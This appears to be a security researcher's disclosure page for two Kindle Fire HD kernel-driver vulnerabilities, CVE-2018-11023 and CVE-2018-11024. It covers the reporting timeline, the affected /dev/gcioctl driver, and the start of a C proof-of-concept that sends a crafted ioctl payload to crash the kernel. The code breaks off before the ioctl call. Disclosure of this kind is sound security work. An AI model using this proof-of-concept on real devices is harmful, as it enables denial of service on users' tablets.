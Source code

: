 
# CVE-2018-11023 & CVE-2018-11024
These page show the practical CVEs that Found. I reported these bugs to Security@amazon.com on On 5/11/2018 and now I have been told they have repaired the bugs and the details can be published. However,  Amazon does not have an advisory page at the moment. I think it is a must to list the detailed infomation here.
## Time Line
 * 5/11/2018 Bugs were reported to Security@amazon.com.
 * 06/27/2018 Amazon got confirmation that two of them allow local elevation of privilege from a regular user to root (CVE-2018-11023 and CVE-2018-11024 on /dev/gcioctl). 
 * 09/18/2018 Amazon had started updating our FireOS 4 devices with the security patches addressing the two critical issues (i.e. CVE-2018-11023 and CVE-2018-11024 on /dev/gcioctl).
 

 ## CVE-2018-11023
 ### Abstract
 
* Name: Amazon Kindle Fire HD (3rd Generation) Kernel DoS
* Date: 2018-10-10
* Reporter: Shuaibing Lu, Liang Ming
* Vendor: http://www.amazon.com/
* Software Link: https://fireos-tablet-src.s3.amazonaws.com/46sVcHzumgrjpCXPHw6oygKVmw/kindle_fire_7inch_4.5.5.3.tar.bz2
* Version: Fire OS 4.5.5.3
### Description

Kernel module /omap/drivers/misc/gcx/gcioctl/gcif.c in the kernel component in Amazon Kindle Fire HD(3rd) Fire OS 4.5.5.3 allows attackers to inject a crafted argument via the argument of an ioctl on device /dev/gcioctl with the command 3222560159 and cause a kernel crash.

### PoC
```
/*
 * This is poc of Kindle Fire HD 3rd
 * A bug in the ioctl interface of device file /dev/gcioctl causes the system crash via IOCTL 3222560159. 
 * This Poc should run with permission to do ioctl on /dev/gcioctl.
 *
 */
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/ioctl.h>

const static char *driver = "/dev/gcioctl";
static command = 3222560159; 

int main(int argc, char **argv, char **env) {
        unsigned int payload[] = { 0x244085aa, 0x1a03e6ef, 0x000003f4, 0x00000000 };

        int fd = 0;
        
        fd = open(driver, O_RDONLY);
        if (fd < 0) {
            printf("Failed to open %s, with errno %d\n", driver, errno);
            system("echo 1 > /data/local/tmp/log");
            return -1;
        }
        
        printf("Try open %s with command 0x%x.\n", driver, command);
        printf("System will crash and reboot.\n");
```